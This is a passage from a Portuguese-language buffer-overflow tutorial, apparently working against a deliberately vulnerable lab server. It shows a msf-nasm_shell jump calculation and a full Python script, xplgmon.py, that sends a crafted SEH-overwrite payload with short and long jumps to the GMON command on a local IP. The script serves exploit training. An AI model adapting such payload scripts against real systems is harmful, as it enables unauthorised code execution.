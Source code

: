 E constatamos o total controle na execução do programa. Mas ainda temos outro problema para resolver: o buffer de “D” tem apenas 41 bytes de espaço, mas este tipo de problema, já resolvemos no comando GTER, e vamos fazer exatamente igual.

## PULANDO DE VOLTA PARA O BUFFER INICIAL

Desta vez, precisamos de 5 bytes para fazer um log jump back, e temos 41, está fácil.
Consultando a distancia com msf-nasm_shell, precisamos de um salto de 3557 bytes (3549 bytes de “A” + 4 bytes do POP/POP/RET + 4 bytes do short jump).

```bash
$ msf-nasm_shell
nasm > JMP $-3557
00000000  E916F2FFFF        jmp 0xfffff21b

```

Temos a distância e916f2ffff, vamos atualizar o script.

xplgmon.py:

```python
#!/usr/bin/python3

import socket

ip = "192.168.1.30"
porta = 9999

offset = 10007

payload = b"GMON ./"
payload += b"A" * 3549
payload += b"\xeb\x08" # salto curto
payload += b"\x90\x90" # padding para o salto curto
payload += b"\x0b\x12\x50\x62"
payload += b"\x90\x90" # padding para o salto longo
payload += b"\xe9\x16\xf2\xff\xff" # salto longo
payload += b"D" * (offset - 3549 - 4 - 4 - 5)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()
print("Payload enviado.")
```

Analisando no Immunity:

![Enumaração do comando.](/std/winbof/winbof-60.png)
